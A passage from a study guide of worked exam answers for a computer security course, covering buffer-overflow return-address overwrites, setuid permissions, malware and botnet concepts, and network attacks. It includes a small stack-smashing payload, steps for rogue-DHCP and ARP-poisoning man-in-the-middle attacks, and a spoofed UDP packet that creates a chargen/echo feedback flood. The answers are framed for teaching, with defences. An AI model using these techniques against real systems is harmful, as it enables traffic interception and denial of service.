| main | saved caller EBP / return | EBP / EBP+4; caller values arbitrary as allowed |
| main | a, then b | EBP−4 holds 3; EBP−8 reserved for b (not yet assigned at the call) |
| foo | saved EBP | 0xaabbddcc holds 0xaabbccdd |
| foo | return to main | 0xaabbddd0 holds 0x41424349 under the stipulated source-statement counting |
| foo | p | 0xaabbddd4 holds 3 |
| foo | str[100], then c | EBP−100 through EBP−1; c at EBP−104 (not yet assigned) |
| bar | saved EBP | 0xaaccbbdd holds 0xaabbddcc |
| bar | return to foo | 0xaaccbbe1 holds the instruction after `bar(str)` |
| bar | s | 0xaaccbbe5 points to foo's str at 0xaabbdd68 |
| bar | buf[10] | 0xaaccbbd3 through 0xaaccbbdc |

The desired main instruction is `int b=4`, two one-byte source instructions after `int a=3`, hence $0x41424347+2=0x41424349$. Its little-endian encoding is **`ICBA`**, all English letters. Under the no-padding model, the return slot is $10+4=14$ bytes after `buf[0]`:

```python
sample = b'A'*10 + b'BBBB' + b'ICBA'
```

`strcpy` writes these 18 bytes then its NUL. `bar`'s `ret` loads the chosen main address directly, skipping foo's normal continuation.

**Limitations that matter:** `BBBB` restores EBP to 0x42424242, not main's actual frame pointer. The alphabets-only restriction cannot encode the supplied main EBP bytes for a full clean restore; reaching the chosen instruction does not guarantee subsequent correct accesses/return. A real compiler, padding or stack protections change the payload. The body of the “necessary code to read str” is unspecified, so its length prevents a unique numeric normal return-to-foo address unless a further source-statement convention is given. The stipulated frame addresses also leave gaps; do not invent a contiguous real call-stack layout from them.

## Filesystem Security

Primary deck: [Ch03-FilesystemSecurity.pdf](../slides/Ch03-FilesystemSecurity.pdf)

<a id="a097"></a>
### A097 · 2019–20 · Q3(c)

**Setuid/chmod under the paper’s no-revert assumption · 11 marks**

Original: [past-paper PDF p. 22](../../CSE405-Security_Merged.pdf#page=22). Sitting date: 07 September 2021.

**Topics:** Unix permissions, setuid and filesystem access.

> **Question summary:** Alice wants Bob’s photo program without exposing her confidential files; Bob wants his code unreadable to Alice. Use Unix setuid/chmod, assume the process cannot revert to real UID after adopting its setuid identity, and consider exfiltration by malicious code.

**Exam tip.** State the prompt's artificial assumption and separate inaccessible secrets from deliberately granted input.

Under the **paper's simplified identity rule**, Bob can own the executable, keep Alice from reading/writing it, allow her to execute it and set its setuid bit. For example `chmod 4711 photo-tool` makes it executable by others but not readable/writable by them. Its effective UID becomes Bob's when Alice runs it.

Keep Alice's confidential directories/files inaccessible to Bob (for example private directory mode 700 and files 600), while granting Bob/the program only the needed photo access through a selected group/ACL or separate shared directory. The program then cannot read Alice's private files using Bob's effective identity; no access means no contents to exfiltrate, even if it can write to a public location or network socket.

This does **not** mean arbitrary setuid code is generally safe. An application that must read a sensitive photo can also leak that photo; permissions cannot distinguish an authorized read for processing from an unauthorized use of the same read data. The process may also inherit open file descriptors from its caller, so do not pass confidential descriptors.

The prompt explicitly rules out reverting to the caller's real UID. Real Unix credential/saved-UID behavior is more complicated, and an unreadable executable is not universal source-code protection (binaries can leak implementation details). For actual deployment use an isolated account/sandbox, explicit data access and controlled output.

## Malware

Primary deck: [Ch04-Malware.pdf](../slides/Ch04-Malware.pdf)

<a id="a008"></a>
### A008 · 2023–24 · Q3(b)

**Code Red patch status and propagation · 5 marks**

Original: [past-paper PDF p. 4](../../CSE405-Security_Merged.pdf#page=4). Sitting date: 06 September 2025.

**Topics:** Worm propagation, epidemic models and case studies.

> **Question summary:** Did Code Red exploit a zero-day vulnerability? Explain its propagation.

**Exam tip.** Distinguish a newly observed worm from a previously unknown vulnerability. New malware can exploit an old bug.

The major July 2001 **Code Red** outbreak exploited an IIS Indexing Service buffer overflow for which Microsoft had already published a patch in June 2001. In that outbreak it was a known, unpatched vulnerability, rather than a zero-day exploit.

An infected IIS server scanned for other vulnerable servers and sent a specially crafted HTTP request. Successful exploitation ran the worm on the next server, which repeated the scanning. This automated replication produced rapid growth; it did not require each new victim to open an email attachment.

[Microsoft MS01-033](https://learn.microsoft.com/en-us/security-updates/securitybulletins/2001/ms01-033) documents the patched flaw; [CAIDA's Code Red analysis](https://www.caida.org/archive/code-red/) records the July propagation.

<a id="a028"></a>
### A028 · 2022–23 · Q3(b)

**Kernel API hooking and rootkit concealment · 12 marks**

Original: [past-paper PDF p. 11](../../CSE405-Security_Merged.pdf#page=11). Sitting date: 18 April 2024.

**Topics:** Rootkit cloaking, hooking and DLL injection.

> **Question summary:** List rootkit features and explain kernel-level hiding through function hooking.

**Exam tip.** Draw the intercepted query path and distinguish hooking from direct structure modification.

A rootkit provides concealment/persistence for other malicious activity. It can hide processes, files, services, registry entries, ports or user accounts. It is distinct from the payload it hides.

In a kernel hook, privileged malicious code redirects a kernel query's dispatch path or alters its result. For example:

```text
process-list tool -> system query -> hooked enumeration routine
                                  -> remove malicious process record
                                  -> return a plausible filtered list
```

The process may keep executing while ordinary tools report it absent. File/directory and network enumeration can be filtered similarly. Installing a kernel hook normally needs elevated privileges or a separate privilege-escalation vulnerability. A user-mode API hook affects fewer observation paths; **DKOM** instead directly alters kernel bookkeeping structures and need not hook the query itself.

Detect with cross-view comparisons, integrity checks and trusted offline examination. A compromised kernel can lie to tools running under it, so ordinary successful antivirus output is not proof of a clean system. Recover from trusted media and rebuild when confidence cannot be restored.

<a id="a029"></a>
### A029 · 2022–23 · Q3(c)

**Adware data flow and spyware revenue · 11 marks**

Original: [past-paper PDF p. 11](../../CSE405-Security_Merged.pdf#page=11). Sitting date: 18 April 2024.

**Topics:** Adware, spyware and malware economics.

> **Question summary:** Explain adware operation with a figure and why its author benefits from adding spyware.

**Exam tip.** Label both the money flow and the information flow.



An installed adware component contacts an advertising agent, obtains advertisements and displays or injects them on the user's system. Advertisers pay the agent/operator for impressions, clicks or conversions.

Spyware adds collection of browsing interests, searches, application usage or other personal data. The operator can profile users, choose more profitable targeted ads and sell the data; abusive variants also steal credentials. More relevant ads can increase click/conversion revenue, explaining the incentive to combine the two components.

Keep the roles distinct: the **adware engine** displays ads, the **spyware engine** collects data, the **agent** distributes ads/receives reports, and **advertisers** fund the campaign. Not every ad-supported application secretly steals passwords; the security issue is unauthorized collection/actions and excessive privileges.

<a id="a033"></a>
### A033 · 2022–23 · Q4(d)

**Zero-day meaning and detection limits · 6 marks**

Original: [past-paper PDF p. 12](../../CSE405-Security_Merged.pdf#page=12). Sitting date: 18 April 2024.

**Topics:** Worm propagation, epidemic models and case studies.

> **Question summary:** Define a zero-day attack and explain why it is dangerous.

**Exam tip.** Distinguish “zero-day vulnerability,” “exploit” and “new malware signature.”

A zero-day attack exploits a vulnerability before defenders have an effective available fix or established response; the issue may be unknown to the vendor. Usage varies about discovery/disclosure, so state this timing convention.

It is dangerous because patch-based prevention may be unavailable, known signatures may not match the exploit, and a widely deployed product can expose many systems before diagnosis and mitigation. Successful exploitation can give an attacker the victim process's privileges and access.

Least privilege, isolation, attack-surface reduction, memory-safety mechanisms, behavior monitoring and incident response can reduce impact even without a specific patch. Zero-day does not mean unstoppable; nor is every attack on an unpatched machine a zero-day if the patch already exists.

<a id="a049"></a>
### A049 · 2021–22 · Q3(a)

**DLL injection and inherited process authority · 5 marks**

Original: [past-paper PDF p. 15](../../CSE405-Security_Merged.pdf#page=15). Sitting date: 30 October 2023.

**Topics:** Rootkit cloaking, hooking and DLL injection.

> **Question summary:** Explain why DLL injection poses high security risks.

**Coverage:** related application/extension. Rootkit/API filtering and process hijacking are taught; detailed DLL-injection mechanics are not.

**Exam tip.** State whose privileges the code receives and how the trust boundary was crossed.

DLL injection causes a target process to load/execute attacker-chosen library code. The injected code runs inside that process's address space and normally with its security context. It may read secrets, intercept API calls, change behavior or conceal activity behind a trusted process name.

Injection is especially serious when a less trusted actor can influence a privileged target. Loading a DLL requires some mechanism—such as already granted debugging/write access, an unsafe loading/search path or a vulnerability. The term itself does not imply any process can inject into any other process.

Use least privilege, protected loading paths, explicit trusted library resolution, integrity controls and restrictions on cross-process modification. Rootkit API filtering is one possible consequence; injection and hooking are related but not identical.

<a id="a057"></a>
### A057 · 2021–22 · Q5(a)

**Why sell many signature-distinct variants of one exploit? · 12 marks**

Original: [past-paper PDF p. 16](../../CSE405-Security_Merged.pdf#page=16). Sitting date: 30 October 2023.

**Topics:** Encrypted, polymorphic and metamorphic viruses; Adware, spyware and malware economics.

> **Question summary:** Explain the financial benefits of creating many malware variants exploiting the same popular-software vulnerability but having different signatures.

**Exam tip.** Identify the reusable cost, the cheap variation and the revenue gained from longer evasion.

An exploit and the malware bytes delivered by it are different assets. Reusing one working exploit reduces development cost, while mutation/packing changes the payload's byte patterns and hashes. Customers can receive apparently distinct products without the author discovering a new vulnerability each time.

A new variant may evade a scanner that only recognizes older byte signatures, extending infection lifetime and increasing income from spam, fraud, credential theft or ransomware. Cheap automated variation also makes defenders analyze/update many samples, while the attacker amortizes the original exploit investment over a large vulnerable population.

This is an economic advantage rather than a proof of invisibility: patching the underlying flaw blocks all variants using it; behavioral detection, emulation and integrity controls can recognize shared effects. Polymorphism changes encrypted representations/decryptors; metamorphism rewrites the body while preserving behavior.

<a id="a059"></a>
### A059 · 2021–22 · Q5(c)

**Disrupting C&C through coordinated investigation · 11 marks**

Original: [past-paper PDF p. 16](../../CSE405-Security_Merged.pdf#page=16). Sitting date: 30 October 2023.

**Topics:** Botnet creation, C&C and malicious agents; Honeypot topology, monitoring and overhead.

> **Question summary:** Formulate a process to take down a botnet command-and-control server.

**Exam tip.** Include discovery, coordinated disruption and endpoint cleanup; a DoS attack on the suspected server is not a sound takedown plan.

Observe representative malware in a contained analysis environment or honeypot; record C&C domains/IPs, protocol, certificate/key material, connection patterns and fallback channels. Correlate evidence from multiple infections before identifying control infrastructure.

Coordinate with the responsible hosting providers, registrars, network operators and authorized response teams. Preserve evidence, arrange suspension/seizure or a controlled sinkhole of confirmed infrastructure, and prevent the replacement endpoint from becoming an attacker tool. Block validated indicators, notify affected owners and remove/rebuild infected hosts so they cannot simply reconnect elsewhere.

A centralized botnet may lose command delivery if its key server disappears. Redundant servers, domain-generation algorithms and peer-to-peer C&C can survive a single-server action; map those dependencies and plan simultaneous disruption. Taking down a C&C endpoint does not remove installed malware or recover stolen credentials.

<a id="a069"></a>
### A069 · 2020–21 · Q1(a)

**WannaCry vulnerability, success and zero-day status · 12 marks**

Original: [past-paper PDF p. 18](../../CSE405-Security_Merged.pdf#page=18). Sitting date: 25 September 2022.

**Topics:** Worm propagation, epidemic models and case studies.

> **Question summary:** Identify WannaCry’s main vulnerability, why it succeeded and whether it was a zero-day attack.

**Exam tip.** Give the patch-versus-outbreak timeline, not just the word “ransomware.”

WannaCry combined ransomware with worm-like propagation through vulnerable Windows **SMBv1** services, using an exploit associated with EternalBlue. The widely observed May 2017 outbreak reached systems missing the **MS17-010** update released on **14 March 2017**.

It succeeded because many exposed/reachable systems remained unpatched, legacy systems were widespread and weak segmentation allowed lateral propagation. The payload encrypted files and demanded payment; automatic spread amplified the damage.

For that outbreak, the exploited flaw was **not a zero-day**: a fix had been available before the attacks. A newly encountered ransomware executable or unavailable local signature does not make the underlying patched vulnerability unknown.

[Microsoft's contemporaneous analysis](https://www.microsoft.com/en-us/security/blog/2017/05/12/wannacrypt-ransomware-worm-targets-out-of-date-systems/), [MS17-010](https://learn.microsoft.com/en-us/security-updates/securitybulletins/2017/ms17-010).

<a id="a077"></a>
### A077 · 2020–21 · Q3(c)

**Derive the SI epidemic worm model · 11 marks**

Original: [past-paper PDF p. 18](../../CSE405-Security_Merged.pdf#page=18). Sitting date: 25 September 2022.

**Topics:** Worm propagation, epidemic models and case studies.

> **Question summary:** Explain an epidemic model of worm propagation with a figure.

**Exam tip.** Define the rate convention and explain all three phases of the S curve.

Let $N$ be the fixed vulnerable population, $I(t)$ infected hosts and $S(t)=N-I(t)$ susceptible hosts. With uniform random contact and rate constant $\beta$, infections occur at rate
$$\frac{dI}{dt}=\beta I S=\beta I(N-I).$$
Separate variables and integrate:
$$\frac{1}{N}\log\frac{I}{N-I}=\beta t+C,$$
so for $I(0)=I_0$,
$$I(t)=\frac{N}{1+\left(\frac{N-I_0}{I_0}\right)e^{-\beta Nt}}.$$

Initially $I\ll N$ and growth is approximately exponential, $I(t)\approx I_0e^{\beta Nt}$. Around $I=N/2$, new infections grow fastest. Eventually few susceptible hosts remain and the curve saturates.



An alternative convention defines $\lambda=\beta N$ and writes $dI/dt=\lambda I(1-I/N)$; do not confuse the units of the constants. Real networks violate uniform mixing and may have patching, recovery, scanning bias, congestion or disconnected hosts. The SI model here assumes no recovery during the modeled interval.

<a id="a079"></a>
### A079 · 2020–21 · Q4(b)

**Value and defense of an internal malware agent · 12 marks**

Original: [past-paper PDF p. 19](../../CSE405-Security_Merged.pdf#page=19). Sitting date: 25 September 2022.

**Topics:** Botnet creation, C&C and malicious agents; Firewall state, evasion and defense limits.

> **Question summary:** Explain why an attacker installs an agent inside a corporate network, delivery methods and prevention; assess whether a firewall can help.

**Exam tip.** Draw the outbound connection from the inside agent; that explains why “there is a firewall” is not a complete defense.

An internal agent provides persistence, local discovery, access to internal services, credential theft and a foothold for lateral movement. It can initiate an outbound C&C connection, so a perimeter policy blocking only unsolicited inbound connections may not stop it.

Delivery can involve phishing attachments, malicious installers/updates, browser/application vulnerabilities or compromised credentials used to install code. The exact route determines prevention: patching, least privilege, restricted software execution, strong authentication, segmentation and endpoint monitoring are complementary controls.

A firewall helps by limiting exposed services, enforcing internal segmentation and restricting outbound destinations/protocols. It is insufficient when malicious traffic is carried over a permitted encrypted session or authorized-looking channel, and it does not clean an already compromised endpoint. Correlate endpoint and network evidence, isolate affected systems and restore trustworthy state.

<a id="a092"></a>
### A092 · 2019–20 · Q2(a)

**Botnet architecture and distributed floods · 12 marks**

Original: [past-paper PDF p. 22](../../CSE405-Security_Merged.pdf#page=22). Sitting date: 07 September 2021.

**Topics:** Botnet creation, C&C and malicious agents; DoS/DDoS, reflection and resource exhaustion.

> **Question summary:** Explain botnet components and how they launch DDoS, with a figure.

**Exam tip.** Separate infection/agent installation, C&C command delivery and the eventual flood payload.

A botnet is a collection of compromised hosts running remotely controlled agents. A botmaster distributes instructions via one or more C&C endpoints or a peer-to-peer overlay. Agents report status and execute commands, often without their owners' knowledge.

```text
                    botmaster
                  /           \
              C&C 1           C&C 2
             /  |  \         /  |  \
           bot bot bot     bot bot bot
              \   \         /   /
                coordinated traffic
                        victim
```

For DDoS, many bots simultaneously send requests/packets that exhaust the victim's link, state, CPU or application capacity. Distribution increases aggregate rate and makes simple source-IP blocking costly because legitimate users can share networks with bots. Spoofing is optional: many botnet floods use the bots' real addresses.

Defend with endpoint prevention/cleanup, segmentation, C&C disruption, rate/admission controls and upstream traffic mitigation. A perimeter filter alone cannot restore an already saturated incoming link.

<a id="a095"></a>
### A095 · 2019–20 · Q3(a)

**Three reasons ransomware grew during COVID-era disruption · 12 marks**

Original: [past-paper PDF p. 22](../../CSE405-Security_Merged.pdf#page=22). Sitting date: 07 September 2021.

**Topics:** Adware, spyware and malware economics; Worm propagation, epidemic models and case studies.

> **Question summary:** Give three major reasons ransomware attacks increased during the COVID-19 pandemic.

**Coverage:** related application/extension. Malware economics is taught, but COVID-specific comparative evidence is not supplied.

**Exam tip.** Give three different causal mechanisms rather than three examples of phishing.

Three plausible mechanisms are:

1. **Expanded remote access:** hurried deployment of remote desktops/VPNs, unmanaged devices and weak authentication exposed more entry points.
2. **Social and operational disruption:** pandemic-themed phishing, overloaded support teams and delayed maintenance made initial compromise and persistence easier.
3. **Strong criminal incentives:** high dependence on online services and downtime-sensitive organizations increased payment pressure; reusable ransomware services/affiliates reduced attackers' development cost.

These are reasoned explanations, not a quantitative causal ranking established by the supplied slides. Connect each mechanism to the attack lifecycle: entry, propagation or monetization. Defenses follow accordingly—harden remote access, authenticate strongly, maintain patches, constrain lateral movement and keep tested isolated backups.

<a id="a096"></a>
### A096 · 2019–20 · Q3(b)

**Encrypted-virus structure and detection · 12 marks**

Original: [past-paper PDF p. 22](../../CSE405-Security_Merged.pdf#page=22). Sitting date: 07 September 2021.

**Topics:** Encrypted, polymorphic and metamorphic viruses.

> **Question summary:** Explain how an encrypted virus is formed and how to detect it.

**Exam tip.** Encrypting the body changes its bytes; the decryptor is still executable code that defenders may recognize.

A basic encrypted virus consists of a relatively fixed **decryptor/loader** plus an encrypted copy of its malicious body. At execution, the loader reconstructs the body in memory and transfers control to it. Different keys can change the ciphertext without changing the behavior.

```text
on disk: [decryptor | key/derivation data | encrypted body]
run: decryptor -> plaintext body in memory -> malicious execution
```

A scanner may recognize the fixed decryptor even when the encrypted body differs. Emulation/sandbox execution can let the sample decrypt and then recognize the exposed body or behavior. Integrity baselines detect unexpected changes to legitimate files. Static heuristics may identify suspicious loading patterns but can produce false positives.

A polymorphic virus also varies its decryptor; a metamorphic virus rewrites the body itself. Emulation has time/visibility limits and can be evaded, so it is one layer rather than guaranteed detection.

<a id="a112"></a>
### A112 · 2018–19 · Q1(c)

**Threshold-triggered banking-data exfiltration · 9 marks**

Original: [past-paper PDF p. 26](../../CSE405-Security_Merged.pdf#page=26). Sitting date: 24 October 2019.

**Topics:** Backdoors, logic bombs and insider abuse.

> **Question summary:** A programmer secretly emails account details whenever a balance exceeds USD 5,000. Identify the attack and risks.

**Exam tip.** Identify actor, trigger and payload separately rather than assigning a label without explaining the violation.

This is an **insider-planted malicious feature** with a condition-triggered payload. The balance threshold is a logic-bomb-style trigger; emailing private account information is a confidentiality violation. It can also be described as a Trojanized banking application because normal banking behavior conceals the malicious action. It is not necessarily a backdoor unless it also provides an unauthorized access/bypass mechanism.

Risks include theft of customer financial data, fraud targeting, regulatory/contractual exposure and loss of trust. The program's ordinary database/email privileges may make the action appear legitimate to coarse controls.

Use independent code review, separation of development/deployment authority, least-privilege database/mail access, controlled builds and monitoring for unusual outbound data. Maintain protected audit records so a privileged developer cannot erase the evidence easily.

<a id="a114"></a>
### A114 · 2018–19 · Q2(a)

**Polymorphic versus metamorphic viruses with examples · 7 marks**

Original: [past-paper PDF p. 26](../../CSE405-Security_Merged.pdf#page=26). Sitting date: 24 October 2019.

**Topics:** Encrypted, polymorphic and metamorphic viruses.

> **Question summary:** Distinguish polymorphic and metamorphic viruses and give two examples of each.

**Exam tip.** “Changes its signature” describes both. State whether the body itself is rewritten.

A **polymorphic** virus varies its encrypted representation and often its decryptor while reconstructing substantially the same body at runtime. **Metamorphic** malware rewrites the body itself using equivalent instruction sequences, register changes, code permutation or junk insertion, so there need not be a constant decrypted body to recognize.

Historical examples commonly analyzed as polymorphic include **1260** and **Marburg**; metamorphic examples include **W32/Simile (Etap)** and **Win95/Regswap**. Families can combine techniques, so the mechanism is a more reliable distinction than a rigid label.

Polymorphic detection can emulate the decryptor and inspect the recovered body; metamorphic detection may require normalization, semantic/behavioral analysis and broader heuristics. Neither kind guarantees evasion against patching or behavior-based containment.

[Marburg analysis](https://www.f-secure.com/v-descs/marburg), [metamorphic analysis](https://www.virusbulletin.com/virusbulletin/2006/03/solving-metamorphic-puzzle).

<a id="a115"></a>
### A115 · 2018–19 · Q2(b)

**Why adware authors add spyware · 8 marks**

Original: [past-paper PDF p. 26](../../CSE405-Security_Merged.pdf#page=26). Sitting date: 24 October 2019.

**Topics:** Adware, spyware and malware economics.

> **Question summary:** Explain why spyware benefits an adware author.

**Exam tip.** Label both the money flow and the information flow.


An installed adware component contacts an advertising agent, obtains advertisements and displays or injects them on the user's system. Advertisers pay the agent/operator for impressions, clicks or conversions.

Spyware adds collection of browsing interests, searches, application usage or other personal data. The operator can profile users, choose more profitable targeted ads and sell the data; abusive variants also steal credentials. More relevant ads can increase click/conversion revenue, explaining the incentive to combine the two components.

Keep the roles distinct: the **adware engine** displays ads, the **spyware engine** collects data, the **agent** distributes ads/receives reports, and **advertisers** fund the campaign. Not every ad-supported application secretly steals passwords; the security issue is unauthorized collection/actions and excessive privileges.

<a id="a116"></a>
### A116 · 2018–19 · Q2(c)

**Function hooking and three concealment targets · 12 marks**

Original: [past-paper PDF p. 26](../../CSE405-Security_Merged.pdf#page=26). Sitting date: 24 October 2019.

**Topics:** Rootkit cloaking, hooking and DLL injection.

> **Question summary:** Define rootkit function hooking, its danger and three examples of avoiding detection.

**Exam tip.** Draw the intercepted query path and distinguish hooking from direct structure modification.

A rootkit provides concealment/persistence for other malicious activity. It can hide processes, files, services, registry entries, ports or user accounts. It is distinct from the payload it hides.

In a kernel hook, privileged malicious code redirects a kernel query's dispatch path or alters its result. For example:

```text
process-list tool -> system query -> hooked enumeration routine
                                  -> remove malicious process record
                                  -> return a plausible filtered list
```

The process may keep executing while ordinary tools report it absent. File/directory and network enumeration can be filtered similarly. Installing a kernel hook normally needs elevated privileges or a separate privilege-escalation vulnerability. A user-mode API hook affects fewer observation paths; **DKOM** instead directly alters kernel bookkeeping structures and need not hook the query itself.

Detect with cross-view comparisons, integrity checks and trusted offline examination. A compromised kernel can lie to tools running under it, so ordinary successful antivirus output is not proof of a clean system. Recover from trusted media and rebuild when confidence cannot be restored.


Three concrete filtered observations are: (1) omit a malicious process from process enumeration; (2) hide its files in directory/file queries; (3) omit its listening port from network-connection queries. A service/registry query can be filtered too. These are concealment examples; they do not make all independent observation paths disappear.

<a id="a117"></a>
### A117 · 2018–19 · Q2(d)

**Morris worm speed and consequences · 8 marks**

Original: [past-paper PDF p. 26](../../CSE405-Security_Merged.pdf#page=26). Sitting date: 24 October 2019.

**Topics:** Worm propagation, epidemic models and case studies.

> **Question summary:** Why did the Morris worm spread rapidly and what were the consequences?

**Exam tip.** Include reinfection/resource exhaustion, not just “it exploited a buffer overflow.”

The 1988 Morris worm used several propagation routes, including a `fingerd` buffer overflow, a Sendmail debugging facility, trusted remote execution and password guessing. Multiple routes expanded the susceptible population, and automatic replication avoided the need for each new user to launch an attachment.

Its reinfection behavior caused repeated copies to run on already affected hosts. The resulting process/load growth exhausted resources and disrupted services across many connected systems, even without a conventional file-destruction payload. Widespread connectivity, trust relationships and weak/unpatched services amplified the effect.

The malware slides distinguish propagation vectors from payload: rapid scanning/replication is the spread mechanism; overload and loss of service are the damage.

<a id="a118"></a>
### A118 · 2018–19 · Q3(a)

**Easter egg versus logic bomb · 6 marks**

Original: [past-paper PDF p. 26](../../CSE405-Security_Merged.pdf#page=26). Sitting date: 24 October 2019.

**Topics:** Backdoors, logic bombs and insider abuse.

> **Question summary:** Give examples of an Easter egg and a logic bomb.

**Exam tip.** Name the trigger and action for the logic bomb.

An **Easter egg** is a hidden, usually benign feature activated by an unusual input sequence—for example, a secret credits screen in a game. Hidden functionality still needs review because it may violate policy or introduce defects.

A **logic bomb** executes malicious behavior when a condition is met—for example, deleting project files on a chosen date or when a programmer's name disappears from payroll. It may lie dormant until its trigger occurs.

Both can be deliberately hidden; the essential distinction is the intended harmful action and trigger, not whether ordinary users know the feature exists. A backdoor specifically creates an unauthorized access/bypass path and need not be identical to either example.

<a id="a121"></a>
### A121 · 2018–19 · Q3(d)

**Bot creation, control and uses · 10 marks**

Original: [past-paper PDF p. 26](../../CSE405-Security_Merged.pdf#page=26). Sitting date: 24 October 2019.

**Topics:** Botnet creation, C&C and malicious agents.

> **Question summary:** Explain botnet creation/control and possible activities.

**Exam tip.** Separate infection/agent installation, C&C command delivery and the eventual flood payload.

A botnet is a collection of compromised hosts running remotely controlled agents. A botmaster distributes instructions via one or more C&C endpoints or a peer-to-peer overlay. Agents report status and execute commands, often without their owners' knowledge.

```text
                    botmaster
                  /           \
              C&C 1           C&C 2
             /  |  \         /  |  \
           bot bot bot     bot bot bot
              \   \         /   /
                coordinated traffic
                        victim
```

For DDoS, many bots simultaneously send requests/packets that exhaust the victim's link, state, CPU or application capacity. Distribution increases aggregate rate and makes simple source-IP blocking costly because legitimate users can share networks with bots. Spoofing is optional: many botnet floods use the bots' real addresses.

Defend with endpoint prevention/cleanup, segmentation, C&C disruption, rate/admission controls and upstream traffic mitigation. A perimeter filter alone cannot restore an already saturated incoming link.


Other bot activities include spam, click fraud, credential/key logging and distributing additional malware. A P2P overlay can replace a single central C&C hierarchy and make disruption more difficult.

## Network Security

Primary deck: [Ch05-NetworkSecurity.pdf](../slides/Ch05-NetworkSecurity.pdf)

<a id="a004"></a>
### A004 · 2023–24 · Q2(a)

**Rogue DHCP gateway and MITM with the correct gateway · 10 marks**

Original: [past-paper PDF p. 3](../../CSE405-Security_Merged.pdf#page=3). Sitting date: 06 September 2025.

**Topics:** DHCP starvation, spoofing and defenses; ARP spoofing, MITM and detection.

> **Question summary:** Attacker IP is 10.10.10.32; router/DHCP server is 10.10.10.4. Give a forged client IP/default router for Alice. If the correct router is supplied, explain another way to become MITM.

**Exam tip.** IP addresses choose routing destinations; Ethernet MAC addresses choose local next hops. Explain both when the real gateway IP is retained.

Offer an unused host address on the same subnet, for example **10.10.10.33**, and default router **10.10.10.32** (the attacker). The mask must make both reachable—for example /24 if consistent with the real network. Do not assign Alice an address already used by the router or attacker.

Alice then sends off-subnet packets to the attacker. To maintain a working connection, the attacker forwards them to 10.10.10.4. Routing/NAT or reverse-path manipulation is needed for replies to pass through the attacker as well; merely receiving outbound packets does not automatically provide a bidirectional MITM.

If the forged offer gives the correct router, use **ARP poisoning**: tell Alice that 10.10.10.4 has the attacker's MAC, and tell the router that Alice's IP has the attacker's MAC. Forward between the two. A malicious DNS-server option can instead redirect selected hostname traffic, but does not inherently intercept every connection and does not defeat properly validated TLS.



Defend with DHCP snooping (server replies only from trusted ports), request rate limits, binding-based dynamic ARP inspection and authenticated application protocols.

<a id="a006"></a>
### A006 · 2023–24 · Q2(c)

**Off-path TCP injection and establishing a replacement connection · 15 marks**

Original: [past-paper PDF p. 3](../../CSE405-Security_Merged.pdf#page=3). Sitting date: 06 September 2025.

**Topics:** TCP hijacking, spoofed segments and optimistic ACKs.

> **Question summary:** Using the printed TCP diagram (continued on p. 4), evaluate malicious actions by an off-path attacker and impersonating the client after it resets the connection.

**Coverage:** related application/extension. The network deck covers TCP state/hijacking; the modern blind-reset and ISN details extend it.

**Exam tip.** Separate “can spoof a packet,” “TCP accepts it,” and “application accepts the identity.” They are three different claims.

An off-path attacker normally cannot see $X,Y$, the ephemeral client port, or current windows. The diagram's symbolic sequence numbers are explanatory; they are **not an address leak to the attacker**. Spoofing the client's IP is insufficient to inject accepted bytes reliably.

If the tuple and current numbers become known or predictable, a client-to-server injected segment after DATA C needs the next client sequence number
$$q=X+1+L_A+L_C,$$
and an ACK consistent with received server bytes, initially $Y+1+L_B$. Acceptance also depends on the receive window, TCP state and later traffic. A guessed in-window RST may disrupt legacy implementations; exact-sequence validation/challenge ACKs make blind resets harder. Flooding remains possible without successful hijacking.

For a **new** spoofed connection, the attacker can send a SYN under the client's source IP, but the server's SYN-ACK goes to the real client. To complete the handshake, the attacker must learn or predict the new server ISN and acknowledge it, and deal with the real client's resets. A prior connection's $Y$ does not generally predict the next ISN. If the server authenticates clients at the application/TLS layer, a successful TCP handshake is still not authenticated impersonation.

Thus no reliable replacement-connection attack follows from the stated off-path capability alone. State additional assumptions if describing the classic predictable-ISN attack.

<a id="a010"></a>
### A010 · 2023–24 · Q4(a)

**UDP chargen/echo feedback versus TCP handshake · 10 marks**

Original: [past-paper PDF p. 5](../../CSE405-Security_Merged.pdf#page=5). Sitting date: 06 September 2025.

**Topics:** DoS/DDoS, reflection and resource exhaustion; TCP hijacking, spoofed segments and optimistic ACKs.

> **Question summary:** JULY on UDP port 36 returns 36–360 random characters; PROTIDHONI on port 5 echoes its input. Give one empty UDP packet creating a feedback loop between X and Y, then assess a single spoofed TCP SYN when both services require a handshake.

**Exam tip.** Trace every reply's source and destination ports. UDP has no handshake gate; TCP application services do.

Send the empty UDP datagram with:

| Field | Value |
|---|---|
| Source IP / port | Y / 5 |
| Destination IP / port | X / 36 |

X sends random characters back to Y:5. Y echoes them to X:36, provoking another random response, and so on. Both services consume bandwidth without further attacker packets, assuming they answer these requests indefinitely and packets continue to arrive. Reflection and application feedback create the problem; source spoofing hides the initiating sender.

